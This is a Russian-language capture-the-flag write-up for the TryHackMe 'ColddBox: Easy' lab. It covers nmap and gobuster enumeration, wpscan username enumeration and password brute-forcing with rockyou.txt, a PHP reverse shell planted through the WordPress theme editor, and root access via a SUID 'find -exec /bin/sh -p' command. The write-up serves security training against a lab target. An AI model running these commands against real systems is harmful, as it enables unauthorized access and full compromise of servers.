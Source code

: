 # ColddBox: Easy

:white_check_mark:  [**Wpscan user and pass enum**](#wpscan)

:white_check_mark: [**Wordpress theme editor shell**](#wordpress_theme_editor)

___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV cold.thm
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18
Service Info: Host: 127.0.1.1
```

Главная страница cold.thm

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/1.png)

Просканируем дирекутории:
```
gobuster dir -u http://cold.thm/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
```
```
/wp-content           (Status: 301) [Size: 309] [--> http://cold.thm/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://cold.thm/]
/wp-includes          (Status: 301) [Size: 310] [--> http://cold.thm/wp-includes/]
/license.txt          (Status: 200) [Size: 19930]                                  
/wp-login.php         (Status: 200) [Size: 2547]                                   
/readme.html          (Status: 200) [Size: 7173]
/wp-admin             (Status: 301) [Size: 307] [--> http://cold.thm/wp-admin/]   
/hidden               (Status: 301) [Size: 305] [--> http://cold.thm/hidden/]     
/xmlrpc.php           (Status: 200) [Size: 42]
```

Страница cold.thm/hidden :

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/2.png)

Можем заметить некторые имена пользователей.

<a name="wpscan"></a>

На главной странице мы могли заметить, что сайт работает на wordpress, перейдем в директорию /wp-admin/. Просканируем с помощью **wpscan** имена пользователей.
```
wpscan --url cold.thm --enumerate u
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/3.png)

Попробуем сбрутить пароль для имени пользователя c0ldd:
```
wpscan --url cold.thm --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd
```

```
[SUCCESS] - c0ldd / 9<Redacted>0
```

<a name="wordpress_theme_editor"></a>

Логинимся на wordpress.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/4.png)

Переходим в редактор тем на страницу 404. Appearance -> Editor -> 404 Template. Закидываем php reverse shell.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/5.png)

Переходим на страницу 404.php(cold.thm/wp-content/themes/twentyfifteen/404.php). Получаем shell.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/6.png)

Закидываем linpeas и находим suid в find.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/7.png)

На [GTFOBins](https://gtfobins.github.io/) переходим на страницу find и находим решение.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/8.png)

Переходим в директорию /usr/bin и выполныем команду:
```
./find . -exec /bin/sh -p \; -quit
```

Получаем рута.
